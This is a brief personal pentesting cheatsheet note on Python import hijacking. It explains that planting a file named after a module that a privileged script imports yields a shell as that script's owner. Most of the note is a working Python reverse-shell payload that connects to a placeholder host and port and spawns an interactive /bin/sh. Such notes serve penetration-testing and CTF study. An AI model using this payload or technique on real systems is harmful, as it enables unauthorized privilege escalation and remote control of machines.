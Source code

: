 -----------------------------------------------
# Hijacking Imports
Tags:  #Cheatsheet #Coding 
Creation date: 2021-10-28

-----------------------------------------------

If a target has a [[python]] file with elevated privs that imports files, we can create a new file (contents below) with the name of the imported file to get a shell as whoever has the privs for the file.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```